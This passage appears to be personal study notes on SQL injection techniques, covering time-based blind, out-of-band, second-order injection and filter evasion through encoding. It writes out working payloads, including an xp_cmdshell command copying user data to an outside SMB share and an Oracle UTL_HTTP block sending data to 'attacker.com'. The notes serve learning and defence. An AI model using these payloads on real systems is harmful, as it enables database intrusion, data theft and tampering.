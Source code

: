 A time-based blind SQL injection is very similar to the above boolean-based one in that the same requests are sent, but there is no visual indicator of your queries being wrong or right this time. Instead, your indicator of a correct query is based on the time the query takes to complete. This time delay is introduced using built-in methods such as **SLEEP(x)** alongside the UNION statement. The SLEEP() method will only ever get executed upon a successful UNION SELECT statement.
Example: `SELECT * FROM users WHERE id = 1; IF (1=1) WAITFOR DELAY '00:00:05'--`
# Out-of-band SQL Injection
Is used when the attacker cannot use the same channel to launch the attack and gather results or when the server responses are unstable. This technique relies on the database server making an out-of-band request (e.g., HTTP or DNS) to send the query result to the attacker. HTTP is normally used in out-of-band SQL injection to send the query result to the attacker's server.
**By different communication channels**, attackers can minimize the risk of detection and maintain a persistent connection with the compromised system.
Out-of-band SQL injection attacks utilize the methodology of writing to another communication channel through a crafted query.
### Techniques in Different Databases
#### MySQL and MariaDB
Out-of-band SQL injection can be achieved using `SELECT...INTO OUTFILE` or `load_file`command. Example, `SELECT sensitive_data FROM users INTO OUTFILE '/tmp/out.txt';`
An attacker could then access this file via an SMB share or HTTP server running on the database server, thereby exfiltrating the data through an alternate channel.
#### Microsoft SQL Server (MSSQL)
We can achieve OOB SQL injection using features like xp_cmdshell, which allows the execution of [[shell]] commands directly from SQL queries.
 `EXEC xp_cmdshell 'bcp "SELECT sensitive_data FROM users" queryout "\\10.10.58.187\logs\out.txt" -c -T';`
 Alternatively, `OPENROWSET` or `BULK INSERT` can be used to interact with external data sources, facilitating data exfiltration through OOB channels.
#### Oracle
Can be achieve using the UTL_HTTP or UTL_FILE packges.For instance, the UTL_HTTP package can be used to send HTTP requests with sensitive data:

 `DECLARE   req UTL_HTTP.REQ;   resp UTL_HTTP.RESP; BEGIN   req := UTL_HTTP.BEGIN_REQUEST('http://attacker.com/exfiltrate?sensitive_data=' || sensitive_data);   UTL_HTTP.GET_RESPONSE(req); END;`

# Second-Order SQL Injection
Also known as stored SQL injection, exploits vulnerabilities where user-supplied input is saved and subsequently used om a different part of the application, possibly after some initial processing. 
Example:
Normal query in application: `UPDATE books SET book_name = '$new_book_name', author = '$new_author' WHERE ssn = '123123';`
SQL command: `12345'; UPDATE books SET book_name = 'Hacked'; --
`

# Filter Evasion Techniques
#### Character Encoding
- **URL Encoding** characters are represented using the percent (%) sign followed by their ASCII value in hexadecimal. For example, the payload `' OR 1=1 --` can be encoded as `%27%20OR%201%3D1--`.
- **Hexadecimal Encoding** can be used to construct SQL queries. For instance, the query `SELECT * FROM users WHERE name = 'admin'` can be encoded as `SELECT * FROM users WHERE name = 0x61646d696e`.
- **Unicode Encoding** represents characters using Unicode escape sequences. `admin` can be encoded as `\u0061\u0064\u006d\u0069\u006e`.
### No-Quote SQL Injection
When the application filters single or double quotes or escapes.
- **Using Numerical Values**: One approach is to use numerical values or other data types that do not require quotes. For example, instead of injecting `' OR '1'='1`, an attacker can use `OR 1=1` in a context where quotes are not necessary.